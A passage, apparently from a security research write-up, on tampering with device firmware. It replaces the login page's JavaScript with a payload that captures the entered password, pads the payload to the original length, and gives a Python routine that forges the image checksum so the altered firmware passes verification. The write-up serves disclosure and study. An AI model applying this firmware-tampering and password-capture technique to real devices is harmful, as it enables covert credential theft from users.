 By default, the HTML returned for the Login page contains the following JavaScript code:

```javascript
$(document).ready(function(){
    transMultipleLang(document.body);
});
```

I decided I would overwrite this value with my payload:

```javascript
loginBtn.onclick = function(e) { console.log(password.value); }
```

The original JavaScrpt is about 92 bytes long.  To preserve the length of the payload string, I pad the difference between the payload and the original with `\n` (newline) characters.  This results in a payload string of the same length as the original but is also valid JavaScript. Once successfully flashed, the target user does not notice the difference unless they have the browser developer console displayed.

## Balancing the Binary

After we have replaced the original string with the payload string, we need to "balance" the modified firmware image so that it matches the original calculated checksum (NOT the checksum in the firmware image header). I wrote a balancing algorithm that works for at least the three latest vendor-provided firmware images; it may work for others but I did not test them.

Python balancing function

```python
def balance(data, cksum, idx):
    print("Checksum to match: " + str(cksum))
    checksum = generate_checksum(data)
    while cksum != checksum:
        diff = checksum - cksum
        if diff >= 0:
            if diff > 0xff:
                data[idx] = 0x1
            else:
                data[idx] = abs(data[idx] - diff)
        else:
           if diff < -0xff:
               data[idx] = 0xff
           else:
               data[idx] = 0xff + diff

        idx = idx + 1
        checksum = generate_checksum(data)

    return data
```

Honestly, I coded this function mostly on intuition and, although it works, I assume there are better ways of doing this type of transformation that I am simply not aware of. I would love to hear from you if you have a more performant way of "balancing" the binary.   
